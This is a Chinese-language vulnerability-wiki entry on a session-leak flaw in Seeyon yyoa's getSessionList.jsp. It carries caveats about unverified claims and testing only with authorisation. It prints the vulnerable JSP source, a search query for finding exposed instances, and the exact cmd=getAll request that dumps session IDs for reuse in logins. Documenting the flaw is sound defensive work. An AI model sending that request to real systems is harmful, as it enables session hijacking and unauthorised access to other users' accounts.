

# 致远yyoa getSessionList.jsp会话泄漏

## 条目说明

- 对象与具体问题：致远yyoa；getSessionList.jsp会话泄漏
- 版本、配置及部署条件：版本未知；活跃会话才可复用
- 认证与权限前提：页内无鉴权，外层需核
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 完整JSP代码可定位getAll/getSingle分支，比短篇强，应为主分析
- 源码if(getAll)后独立if/else可能追加空SessionList XML，解析结构应如实说明
- 回显session不保证任意用户登录，需会话有效/权限/绑定条件；合并短篇返回样例

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

通过使用存在漏洞的请求时，会回显部分用户的Session值，导致出现任意登录的情况

### 漏洞影响

未知

### 网络测绘

```
app="致远互联-OA"
```

### 漏洞复现

出现漏洞的源码

```
<%@ page contentType="text/html;charset=GBK"%>
<%@ page session= "false" %>
<%@ page import="net.btdz.oa.ext.https.*"%>
<%
    String reqType = request.getParameter("cmd");
    String outXML = "";
    boolean allowHttps = true;
    if("allowHttps".equalsIgnoreCase(reqType)){
        //add code to judge whether it allow https or not
        allowHttps = FetchSessionList.checkHttps();
        if (allowHttps) response.setHeader("AllowHttps","1");
    }
    if("getAll".equalsIgnoreCase(reqType)){
        outXML = FetchSessionList.getXMLAll();
    }
    else if("getSingle".equalsIgnoreCase(reqType)){
        String sessionId = request.getParameter("ssid");
        if(sessionId != null){
            outXML = FetchSessionList.getXMLBySessionId(sessionId);
        }
    }
    else{
        outXML += "<?xml version=\"1.0\" encoding=\"GB2312\"?>\r\n";
        outXML += "<SessionList>\r\n";
//        outXML += "<Session>\r\n";
//        outXML += "</Session>\r\n";
        outXML += "</SessionList>\r\n";
    }
    out.println(outXML);
%>
```

从上面的代码可知，当cmd参数为getAll时，便可获取到所有用户的SessionID ,请求

```
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

回显Session则存在漏洞



通过替换 Session即可登陆系统

---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
